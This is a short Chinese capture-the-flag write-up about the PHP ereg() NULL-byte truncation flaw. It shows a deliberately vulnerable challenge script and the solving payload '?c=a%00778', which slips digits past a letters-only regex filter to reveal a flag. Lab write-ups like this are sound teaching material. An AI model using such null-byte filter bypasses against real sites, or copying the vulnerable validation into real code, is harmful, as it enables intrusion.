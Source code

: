# 知识点
### ereg函数的截断漏洞
ereg()函数用指定的模式搜索一个字符串中指定的字符串,如果匹配成功返回true,否则,则返回false。搜索字 母的字符是大小写敏感的。 ereg函数存在NULL截断漏洞，导致了正则过滤被绕过,所以可以使用%00截断正则匹配<br />[https://blog.csdn.net/qq_25987491/article/details/79952393](https://blog.csdn.net/qq_25987491/article/details/79952393)
### strrev
反转字符串
# 思路

```php
<?php

highlight_file(__FILE__);
error_reporting(0);
include("flag.php");

if (ereg ("^[a-zA-Z]+$", $_GET['c'])===FALSE)  {
    die('error');

}
//只有36d的人才能看到flag
if(intval(strrev($_GET['c']))==0x36d){
    echo $flag;
}

?>
```
```php
?c=a%00778
```
![image.png](./images/20231017_2349481409.png)

